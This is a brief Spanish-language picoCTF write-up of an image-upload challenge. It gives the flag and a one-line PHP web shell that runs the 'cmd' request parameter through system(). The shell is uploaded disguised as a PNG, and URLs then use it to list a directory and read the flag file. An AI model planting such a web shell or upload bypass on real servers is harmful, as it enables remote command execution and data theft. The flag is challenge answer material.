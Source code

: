 #Reto 
## Descripcion del reto
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
## Solucion
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
creamos un script y lo modificamos para poder subirlo como png
![[Pasted image 20250930194347.png]]
este es el script q usamos
````
<?php
if(isset($_REQUEST['cmd'])) 
    system($_REQUEST['cmd']);
?>
`````
lo subimos como png
despues cambiamos el directorio y ponemos esto 
http://atlas.picoctf.net:52124/uploads/webshell.png.php?cmd=ls%20..
nos lleva a aqui y nos muestra este archivo
![[Pasted image 20250930194942.png]]
ahora cambiamos la url otra vez pero poniendo esto
http://atlas.picoctf.net:52124/uploads/webshell.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt
y aqui esta la llave
![[Pasted image 20250930195029.png]]
## Notas

## Referencias

